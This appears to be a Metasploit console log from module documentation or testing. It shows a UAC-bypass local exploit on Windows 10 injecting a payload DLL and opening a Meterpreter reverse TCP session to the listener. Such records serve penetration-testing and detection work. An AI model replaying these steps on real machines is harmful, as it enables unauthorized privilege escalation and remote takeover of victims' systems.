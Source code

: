 ```
> set verbose true
verbose => true
> show options

Module options (exploit/windows/local/bypassuac_injection_winsxs):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     <MSF_IP>         yes       The listen address
   LPORT     30010            yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86


> run -j
[*] Exploit running as background job.
[*] resource (/home/msfuser/rapid7/test_artifacts/test_rc/windows-meterpreter-reverse_tcp-192x168x134x160-30009.rc)> Ruby Code (13 bytes)
[*] Started reverse TCP handler on <MSF_IP>:30010 
[*] resource (/home/msfuser/rapid7/test_artifacts/test_rc/windows-meterpreter-reverse_tcp-192x168x134x160-30009.rc)> Ruby Code (12 bytes)
[+] Windows 10 (Build 10586). may be vulnerable.
[*] UAC is Enabled, checking level...
[*] Checking admin status...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Creating temporary folders...
[*] Uploading the Payload DLL to the filesystem...
[*] Payload DLL 18944 bytes long being uploaded...
[*] Spawning process with Windows Publisher Certificate, to inject into...
[*] Injecting  into process ID 3476
[*] Opening process 3476
[*] Injecting struct into 3476
[*] Executing payload
[+] Successfully injected payload in to process: 3476
[*] Sending stage (957487 bytes) to <Win10x86_IP>
[*] Meterpreter session 2 opened (<MSF_IP>:30010 -> <Win10x86_IP>:50078) at 2017-10-03 12:19:03 -0700
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the path specified.
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the path specified.
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the path specified.
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the path specified.
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the path specified.
```
